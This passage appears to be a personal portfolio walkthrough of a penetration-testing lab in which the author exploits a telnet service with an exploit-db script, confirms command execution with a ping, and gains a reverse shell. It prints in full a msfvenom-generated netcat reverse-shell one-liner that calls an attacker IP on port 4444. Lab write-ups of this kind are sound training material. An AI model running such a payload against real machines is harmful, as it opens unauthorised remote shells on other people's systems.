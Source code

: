 There is an other way to exploit telnet connection, as You can see on exploit-db, there is a script to exploit it, so I copied it to Nano editor, and saved it as a python file.

![Screenshot 2023-11-27 224057](https://github.com/messor89/Portfolio/assets/52599741/da9991c7-aed5-4e54-b084-33b8fa963731)
![Screenshot 2023-11-27 224138](https://github.com/messor89/Portfolio/assets/52599741/43cf5913-0c04-490e-be07-69469acba31f)

After run the python file againts the target machine, the script exploited the telnet connection, and we have access. However it seems, commands are not working.

So I set up a tcpdump listener, and sent a ping request to the attacker machine to see sytem commands are working.

![Screenshot 2023-11-27 223954](https://github.com/messor89/Portfolio/assets/52599741/fb9df158-7fbb-4102-9f49-7a0607776ef5)

As we can see, I recieved the ping request.

![Screenshot 2023-11-27 224030](https://github.com/messor89/Portfolio/assets/52599741/3e56fe53-9cf1-4bd5-af39-0c2240c296f4)


So after this, in msfvenom I generated a payload in RAW format, so I will be able to execute on the target machine. 

mkfifo /tmp/essdef; nc 192.168.30.135 4444 0</tmp/essdef | /bin/sh >/tmp/essdef 2>&1; rm /tmp/essdef

![Screenshot 2023-11-27 224313](https://github.com/messor89/Portfolio/assets/52599741/af8cd16d-615f-47cd-999b-c775403fff3d)

I executed the msfvenom payload on the target machine and started a netcat listener on  the attacker machine, so hopefully we will have a reverse shell.

![Screenshot 2023-11-27 224506](https://github.com/messor89/Portfolio/assets/52599741/27d3a26f-a8ef-455a-b61f-e4b55e0e0b6a)

And the result is........


![Screenshot 2023-11-27 224528](https://github.com/messor89/Portfolio/assets/52599741/b10b5f53-e808-4a47-aa00-34cd02f8a6b1)













We did it, and now we have full access to the target machine, and all commands are working. This was the "more" difficult way as probably everybodu would suggest to just go with metasploitable framework and execute a payload.
